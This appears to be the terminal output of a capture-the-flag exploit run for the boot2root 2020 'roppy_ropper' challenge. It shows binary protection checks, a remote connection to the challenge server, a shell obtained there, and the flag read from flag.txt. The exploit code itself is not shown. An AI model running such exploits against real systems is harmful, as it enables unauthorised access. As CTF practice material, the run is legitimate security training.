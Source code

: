 # ./exploit.py REMOTE=1
[*] '/pwd/datajerk/boot2root2020/roppy_ropper/lsass'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to 35.238.225.156 on port 1004: Done
[*] Switching to interactive mode
Hey sorry that is not allowed
$ id
uid=1000(pwnuser) gid=1001(pwnuser) groups=1001(pwnuser),1000(ctf)
$ ls -l
total 688
-r--r--r-- 1 pwnflag pwnflag     35 Dec  6 09:29 flag.txt
-rwsr-xr-x 1 pwnflag pwnflag 698068 Dec  6 09:29 lsass
$ cat flag.txt
b00t2root{R0p_cHa1nS_ar3_tH3_b3st}
